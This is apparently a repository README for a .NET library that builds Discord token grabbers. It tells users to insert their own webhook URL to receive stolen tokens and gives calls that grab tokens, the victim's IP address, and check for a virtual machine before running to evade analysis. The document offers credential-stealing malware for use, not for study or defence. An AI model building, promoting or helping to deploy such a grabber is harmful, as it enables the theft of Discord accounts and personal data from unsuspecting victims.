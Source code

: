 # Discord-Token-Grabber-Library
A .NET library developed to create Discord token and other information grabbers with ease.

# Usage
Replace all occurances of "webhook-here" to your own server's webhook URL, this is the webhook which will be displaying the captured tokens.

Build the DLL and reference it in your project(s): ```using Furious;```

### To grab tokens call
```Furious.Grabber.Start();```
### To grab tokens + IP address
```Furious.Grabber.Start(true);```
### To check for a VM before attempting to grab anything
```Furious.Grabber.Start(grabIP: true, checkForVM: true);```


# Requests
I do not know JS, I got it to work with luck, for those that do, the JS in the text files may look extremely messy. If you're able to optimise/clean-up the code I would greatly appreciate it.
